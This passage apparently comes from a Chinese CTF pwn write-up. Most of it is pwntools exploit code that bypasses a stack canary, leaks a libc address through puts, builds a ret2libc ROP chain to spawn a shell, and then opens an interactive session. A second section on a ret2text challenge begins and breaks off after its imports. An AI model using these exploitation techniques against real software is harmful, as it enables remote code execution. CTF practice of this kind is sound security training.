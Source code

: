 ```python
payload = b'a' * (0x28) + p64(canary) + b'a' * 8 + p64(rdi) + p64(puts_got) + p64(puts_plt) + p64(bug)

p.recvuntil(b'closer to the key')

p.send(payload)

  

p.recvuntil(b'keep trying\n')

puts_addr = u64(p.recv(6).ljust(8, b'\x00'))

  

'''libc = LibcSearcher('puts', puts_addr)

base = puts_addr - libc.dump('puts')

system = base + libc.dump('system')

binsh = base + libc.dump('str_bin_sh')'''

  

ret = 0x40059e

log.success('puts_addr: ' + hex(puts_addr))

base = puts_addr - 0x80970

system = base + 0x4f420

binsh = base + 0x1b3d88

  

payload = b'a' * (0x28) + p64(canary) + b'a' * 8 + p64(ret) + p64(rdi) + p64(binsh) + p64(system)

p.send(payload)

p.sendafter(b'closer to the key', b'a')

  

p.interactive()
```
shell:
![[Pasted image 20250121160630.png]]
# ret2text
简单的`ret2text`类型题目
找到溢出点，`backdoors`，构造`payload`即可。
exp:
```python
from pwn import *

# from LibcSearcher import LibcSearcher

from wstube import websocket

  
```